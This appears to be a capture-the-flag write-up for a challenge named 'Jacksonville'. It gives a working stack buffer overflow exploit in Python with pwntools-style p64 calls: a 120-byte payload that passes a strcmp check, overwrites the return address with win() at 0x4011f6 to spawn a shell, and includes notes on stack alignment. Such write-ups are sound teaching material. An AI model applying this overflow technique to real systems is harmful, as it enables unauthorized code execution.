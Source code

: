 **Simple test:**

1. **Try without ret_gadget first**
   ```python
   payload += p64(0)         # Saved RBP (any value)
   payload += p64(win_addr)  # Return address
   ```

2. **If it crashes with "movaps" error → need alignment**

3. **If it works → don't need ret_gadget**

For Jacksonville, the value at saved RBP doesn't affect alignment - only the return address execution path matters.

---

## Exploitation Strategy

### Attack Overview

1. **Bypass strcmp check**: Put "Jaguars\0" at offset 6
2. **Overflow buffer**: Write past 104-byte buffer
3. **Overwrite saved RBP**: Any value (we use 0 or ret_gadget)
4. **Overwrite return address**: Point to win() function
5. **Get shell**: win() executes system("/bin/sh")

### Payload Construction

```python
payload = b"A" * 6              # Bytes 0-5: Padding (ignored by strcmp)
payload += b"Jaguars\x00"       # Bytes 6-13: Pass strcmp check
payload += b"A" * 90            # Bytes 14-103: Fill rest of buffer
payload += p64(0)               # Bytes 104-111: Saved RBP (any value)
payload += p64(win_addr)        # Bytes 112-119: Return address
```

**Total: 120 bytes**

### Byte-by-Byte Breakdown

```
Position | Hex Dump              | Meaning
---------|------------------------|----------------------------------
0        | 0x41 ('A')            | Padding byte 1
1        | 0x41 ('A')            | Padding byte 2
2        | 0x41 ('A')            | Padding byte 3
3        | 0x41 ('A')            | Padding byte 4
4        | 0x41 ('A')            | Padding byte 5
5        | 0x41 ('A')            | Padding byte 6
---------|------------------------|----------------------------------
6        | 0x4a ('J')            | strcmp checks from here!
7        | 0x61 ('a')            |
8        | 0x67 ('g')            | "Jaguars"
9        | 0x75 ('u')            |
10       | 0x61 ('a')            |
11       | 0x72 ('r')            |
12       | 0x73 ('s')            |
13       | 0x00 (\0)             | Null terminator (stops strcmp)
---------|------------------------|----------------------------------
14-103   | 0x41...0x41           | 90 'A's (fill buffer)
---------|------------------------|----------------------------------
104-111  | 0x00...0x00           | Saved RBP (8 bytes, value = 0)
---------|------------------------|----------------------------------
112-119  | 0xf6 0x11 0x40 0x00   | Return address = 0x4011f6 (win)
         | 0x00 0x00 0x00 0x00   | (little-endian format)
```

